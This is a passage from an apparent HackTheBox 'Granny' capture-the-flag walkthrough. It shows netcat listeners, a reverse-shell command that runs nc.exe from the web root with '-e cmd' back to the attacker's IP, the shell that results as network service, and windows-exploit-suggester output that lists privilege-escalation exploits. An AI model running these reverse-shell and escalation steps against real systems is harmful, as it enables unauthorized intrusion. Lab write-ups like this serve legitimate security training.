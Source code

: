     [root:/git/htb/granny]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.15] 1082
    [root:/git/htb/granny]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.15] 1083

    We get a incomming connection, however the shell dies instantly. Lets try cmd instead of powershell.
    Execute RCE: c:\Inetpub\wwwroot\nc.exe 10.10.14.8 4488 -e cmd

    [root:/git/htb/granny]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.15] 1085
      Microsoft Windows [Version 5.2.3790]
      (C) Copyright 1985-2003 Microsoft Corp.

      c:\windows\system32\inetsrv> whoami
        nt authority\network service


3. Grab the 'systeminfo' and use windows-exploit-suggester.

  [root:/git/htb/granny]# python /opt/windows-exploit-suggester.py --update                                                         (master✱)
    [*] initiating winsploit version 3.3...
    [+] writing to file 2021-03-02-mssb.xls
    [*] done
  [root:/git/htb/granny]# python /opt/windows-exploit-suggester.py --database 2021-03-02-mssb.xls --systeminfo systeminfo.txt
    [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
    [+] windows version identified as 'Windows 2003 SP2 32-bit'
    [*]
    [M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
    [*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
    [*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
    [*]
    [E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
    [*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
    [*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
    [*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
    [*]
    [E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
    [*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
    [*]
    [E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
    [*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
    [*]
    [M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
    [*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
    [*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
    [*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC